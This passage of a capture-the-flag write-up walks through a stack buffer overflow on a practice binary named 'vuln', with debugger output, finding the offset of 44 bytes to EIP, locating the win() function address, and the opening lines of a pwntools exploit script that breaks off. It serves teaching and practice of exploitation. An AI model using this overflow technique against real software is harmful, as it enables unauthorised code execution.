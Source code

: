 <span style="color:#585858"><b>────────────────────────────────────────────────────────────────── </b></span><span style="color:#49AEE6">code:x86:32</span><span style="color:#585858"><b> ────</b></span>
<span style="color:#EC0101"><b>[!]</b></span> Cannot disassemble from $PC
<span style="color:#EC0101"><b>[!]</b></span> Cannot access memory at address 0x6161616c
<span style="color:#585858"><b>────────────────────────────────────────────────────────────────────── </b></span><span style="color:#49AEE6">threads</span><span style="color:#585858"><b> ────</b></span>
[<span style="color:#47D4B9"><b>#0</b></span>] Id 1, Name: &quot;vuln&quot;, <span style="color:#EC0101"><b>stopped</b></span> <span style="color:#367BF0">0x6161616c</span> in <span style="color:#FF8A18"><b>??</b></span> (), reason: <span style="color:#962AC3"><b>SIGSEGV</b></span>
{% endccb %}

We can see that `$eip` is currently overflowed with the pattern `0x6161616c` (`laaa`). let's search for this pattern using `pattern search`:

{% ccb terminal:true html:true caption:'GEF pattern command' url:'gef.readthedocs.io/en/master/commands/pattern/' url_text:documentation %}
<span style="color:#47D4B9"><b>gef➤  </b></span>pattern search 0x6161616c
<span style="color:#277FFF"><b>[+]</b></span> Searching for &apos;0x6161616c&apos;
<span style="color:#47D4B9"><b>[+]</b></span> Found at offset 44 (little-endian search) <span style="color:#EC0101"><b>likely</b></span>
<span style="color:#47D4B9"><b>[+]</b></span> Found at offset 41 (big-endian search) 
{% endccb %}

To figure out which offset we need to use, we can use `readelf` to analyze header of the `vuln` executable:

{% ccb terminal:true html:true caption:'readelf command' url:'man7.org/linux/man-pages/man1/readelf.1.html' url_text:documentation %}
<span class="line"><span class="meta prompt_">$ </span><span class="language-bash">readelf -h vuln | grep endian</span></span><br><span class="line">  Data: 2&#x27;s complement, little endian</span>
{% endccb %}

Our binary is in little endian, we know that 44 `A`s are needed in order to reach the `$eip`. The only thing we need now before we create our exploit is the address of the `win()` function, which will be appended to the end of our buffer to overwrite the `$eip` on the stack:

{% ccb terminal:true html:true caption:'GDB x command' url:'visualgdb.com/gdbreference/commands/x' url_text:documentation %}
<span style="color:#47D4B9"><b>gef➤  </b></span>x win
<span style="color:#367BF0">0x80491f6</span> &lt;<span style="color:#FEA44C">win</span>&gt;:	0xfb1e0ff3
{% endccb %}

Win is at `0x80491f6`, but we need to convert it to the little endian format. You can do this with the pwntools `p32()` command, which results in `\xf6\x91\x04\x08`.
Let's make a final visual of our payload:

![Payload Visual](asset/pico22/buffer-overflow/payload-visual.png)

Let's write our payload and send it to the remote server with Python3/pwntools:

{% ccb lang:py caption:buffer-overflow-1.py gutter1:1-11 url:'gist.github.com/jktrn/23ec53b007e3589c6793acffce207394' url_text:'github gist link' %}
#!/usr/bin/env python3
from pwn import *
